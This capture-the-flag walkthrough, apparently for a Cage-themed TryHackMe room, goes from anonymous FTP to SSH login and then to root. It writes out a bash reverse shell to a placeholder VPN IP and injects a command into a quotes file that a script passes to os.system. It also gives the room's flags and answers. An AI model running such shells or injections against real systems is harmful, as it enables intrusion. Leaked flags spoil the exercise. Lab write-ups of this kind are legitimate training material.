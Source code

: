 ```yaml
---
Help Cage bring back his acting career and investigate the nefarious goings on of his agent!
---
```


```anonymous (no pass)
ftp 10.10.65.125
```

```download
get dad_tasks
```
[vigener-solver](https://www.guballa.de/vigenere-solver)

> Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.
In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes

### ssh

==weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes==  (weston found in source code also question)

```
sudo -l
```

```msg
sudo /usr/bin/bees
```

> Broadcast message from weston@national-treasure (pts/0) (Sat Aug 13 16:52:24 20                                                                               
AHHHHHHH THEEEEE BEEEEESSSS!!!!!!!! (through wall)

```files owned by cage
find / -type f -user cage 2>/dev/null
```

`/opt/.dads_scripts/spread_the_quotes.py`
`/opt/.dads_scripts/.files/.quotes`

```
cat /opt/.dads_scripts/spread_the_quotes.py
```

> #!/usr/bin/env python
#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random
lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

```some quotes
cat /opt/.dads_scripts/.files/.quotes
```

#### reverse shell
`cat > some.sh << EOF-EOF block to print the contents enclosed within this block in the terminal. `

```
cat > /tmp/shell.sh << EOF
```

*write* #!/bin/bash
bash -i >& /dev/tcp/*vpn-ip*/4444 0>&1
EOF

or just nano

> cat /tmp/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/*vpn-ip*/4444 0>&1

```
chmod +x /tmp/shell.sh
```

```
printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
```

##### netcat(kali machine)

```
rlwrap nc -nlvp 4444 
```

```cage
ls
```

```
cat Super_Duper_Checklist
```

> 1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: ==THM{M37AL_0R_P3N_T35T1NG}==

### priv esc

```to check the 3 emails
cat email_backup/*
```

> found cageisnotalegend and key face [vigenere-tool](https://www.boxentriq.com/code-breaking/vigenere-cipher) 

==cageisnotalegend==

```not terminal error
python3 -c "import pty;pty.spawn('/bin/bash')"
```

```enter pass
su root
```
`pass: cageisnotalegend`

```
cat /root/email_backups/*
```

==THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}==


- What is Weston's password?*Mydadisghostrideraintthatcoolnocausehesonfirejokes*
- What's the user flag?*THM{M37AL_0R_P3N_T35T1NG}*
- What's the root flag?*THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}*

[[Gotta Catch'em All!]]
